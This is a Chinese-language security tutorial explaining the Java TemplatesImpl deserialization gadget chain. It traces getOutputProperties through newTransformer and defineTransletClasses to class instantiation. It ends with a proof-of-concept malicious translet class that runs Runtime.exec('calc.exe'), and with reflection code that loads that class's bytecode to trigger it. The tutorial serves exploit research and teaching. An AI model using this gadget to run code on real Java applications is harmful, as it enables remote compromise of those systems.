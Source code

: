 # TemplatesImpl
- [TemplatesImpl](#templatesimpl)
  - [ClassLoader](#classloader)
    - [defineClass类加载](#defineclass类加载)
  - [TransletClassLoader#defineClass](#transletclassloaderdefineclass)
    - [defineTransletClasses](#definetransletclasses)
      - [getTransletClasses()](#gettransletclasses)
      - [getTransletIndex()](#gettransletindex)
      - [getTransletInstance()](#gettransletinstance)
    - [newTransformer()](#newtransformer)
  - [POC构造](#poc构造)
    - [关键点](#关键点)

## ClassLoader
每个ClassLoader对象都是一个java.lang.ClassLoader的实例,每一个class对象都是由ClassLoader对象来加载,也可以继承java.lang.ClassLoader来扩展自定义ClassLoader来加载类.  
### defineClass类加载
在ClassLoader中有一个defineClass可以通过参数b传入字节码来加载一个Class.
```java
    protected final Class<?> defineClass(String name, byte[] b, int off, int len,
                                         ProtectionDomain protectionDomain)
        throws ClassFormatError
    {
        protectionDomain = preDefineClass(name, protectionDomain);
        String source = defineClassSourceLocation(protectionDomain);
        Class<?> c = defineClass1(name, b, off, len, protectionDomain, source);
        postDefineClass(c, protectionDomain);
        return c;
    }
```
## TransletClassLoader#defineClass
在java.lang.ClassLoader中的defineClass属性为protected,无法直接在外部访问,只能通过反射调用.而在TemplatesImpl.java中有一个TransletClassLoader类,其中继承了ClassLoader并重写了defineClass,其中没有显式声明作用域,而默认下为作用域default,代码如下
```java
Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
```
### defineTransletClasses
而引用了TransletClassLoader.defineClass的的地方则是在defineTransletClasses().
![](2021-12-21-11-40-42.png).
可以看到将属性`_bytecodes`值传入loader.defineClass中,同时该属性为private访问权限.
而引用了defineTransletClasses()的地方一共有三处:
* getTransletClasses()
* getTransletIndex()
* getTransletInstance()
#### getTransletClasses()
相关代码如下
```java
    private synchronized Class[] getTransletClasses() {
        try {
            if (_class == null) defineTransletClasses();
        }
        catch (TransformerConfigurationException e) {
            // Falls through
        }
        return _class;
    }
```
在该方法中,虽然调用了defineTransletClasses()方法来加载了我们指定的类,但却没有对该类进行实例化,导致无法执行类中的静态代码块,也就无法执行我们的恶意代码.
#### getTransletIndex()
```java
    public synchronized int getTransletIndex() {
        try {
            if (_class == null) defineTransletClasses();
        }
        catch (TransformerConfigurationException e) {
            // Falls through
        }
        return _transletIndex;
    }
```
该方法同理,也没有进行实例化.
#### getTransletInstance()
```java
    private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();

            // The translet needs to keep a reference to all its auxiliary
            // class to prevent the GC from collecting them
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            ...
            ...
            ...
```
在该方法中,调用了`_class`的newInstance(),也就是对加载的指定类进行了实例化,我们的恶意代码也就可以自动触发了.
### newTransformer()
可以看到只有getTransletInstance()符合要求,而引用了getTransletInstance()的地方则是在newTransformer()中.
```java
    public synchronized Transformer newTransformer()
        throws TransformerConfigurationException
    {
        TransformerImpl transformer;

        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
            _indentNumber, _tfactory);
            ...
            ...
            ...
```
可以看到该类必须要是一个AbstractTranslet类型,而该类为一个抽象类,也就是我们传入的类也要是AbstractTranslet类的实现类.
而newTransformer()则是在getOutputProperties()中
```java
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```
## POC构造
现在的触发流程如下:
1. getOutputProperties()->newTransformer()
2. newTransformer()->getTransletInstance()
3. getTransletInstance()->defineTransletClasses()
4. defineTransletClasses()->TransletClassLoader()
5. TransletClassLoader()->defineClass()
6. defineClass()->加载指定类
7. _class.newInstance()实例化指定类,触发静态代码块或者构造函数中的恶意代码.  

![](2021-12-27-11-00-33.png)  
继承了AbstractTranslet的恶意类实例代码:
```java
public class Poc extends AbstractTranslet {
    public Poc() throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    public static void main(String[] args) throws Exception{
        Poc poc = new Poc();
    }

}
```
从getOutputProperties当入口为例.
```java
 public static void main(String[] args) throws Exception {
        TemplatesImpl jrs = new TemplatesImpl();
        byte [] code = getbytes("D:\\\\coding\\\\Temlpates\\\\target\\\\test-classes\\\\Poc.class");
        setFieldValue(jrs,"_bytecodes",new byte[][] {code});
        setFieldValue(jrs,"_name","1");
        setFieldValue(jrs,"_tfactory",new TransformerFactoryImpl());
        jrs.getOutputProperties();
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static byte[] getbytes(String filename) throws Exception{
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(filename)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        byte[] result = bos.toByteArray();
        return result;
    }
}
```
![](2021-12-21-19-19-55.png)

### 关键点
1. 通过反射来设置TemplatesImpl的相关属性.
2. _name属性要不为空.  
![](2021-12-21-19-17-09.png)
3. _tfactory属性要为TransformerFactoryImpl对象.
![](2021-12-21-19-17-47.png)
不然在生成TransletClassLoader时会报错.
![](2021-12-21-19-18-16.png)

